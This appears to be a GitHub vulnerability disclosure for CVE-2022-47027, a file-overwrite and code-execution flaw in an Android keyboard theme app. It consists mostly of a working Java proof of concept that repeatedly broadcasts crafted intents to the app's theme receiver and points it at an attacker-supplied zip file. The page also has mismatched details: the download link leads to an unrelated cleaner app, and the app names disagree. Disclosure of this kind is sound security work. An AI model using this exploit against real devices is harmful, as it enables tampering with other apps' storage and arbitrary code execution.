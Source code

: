 ## Code execution exists in Change Color Of Keyboard（CVE-2022-47027）

Vendor：Launcher 2021 - Themes & Keyboard Apps

Affected product：Change Color Of Keyboard (com.jb.gokeyboard.theme.twchangecolorofkeypad)

Version：1.275.1.162

Download link：https://apkpure.com/cn/space-clean-super-cleaner/com.ludashi.xsuperclean

Description of the vulnerability for use in the CVE： Fast Typing Keyboard v1.275.1.162 allows unauthorized apps to overwrite arbitrary files in its internal storage via a dictionary traversal vulnerability and achieve arbitrary code execution.



poc：

```java
private void attack() {
    while (true) {
        Intent intent = new Intent();
        ComponentName componentName = new ComponentName("com.jb.gokeyboard.theme.twchangecolorofkeypad", "com.timmystudios.redrawkeyboard.themes.SuperThemeReceiver");
        intent.setComponent(componentName);
        intent.setAction("com.timmystudios.redrawkeyboard.intent.action.THEME_APPLIED");
        intent.putExtra("package-name","com.ludashi.xsuperclean");
        intent.putExtra("selected-font",true);
        intent.putExtra("font_name","hack");
        intent.putExtra("font_id","2");
        intent.putExtra("font_resource","hackkkk");
        intent.putExtra("font_size",123456);
        intent.putExtra("selected-sound",true);
        intent.putExtra("sound_name","hack");
        intent.putExtra("sound_id","2");
        intent.putExtra("sound_resource","hackkkk");
        intent.putExtra("sound_size",123456);
        intent.putExtra("go_theme_id",3);
        intent.putExtra("go_res_zip_path","/data/local/tmp/test.zip");
        try {
            System.out.println("发送数据");
            sendBroadcast(intent);
        } catch (Exception e) {

        }
    }
}
```



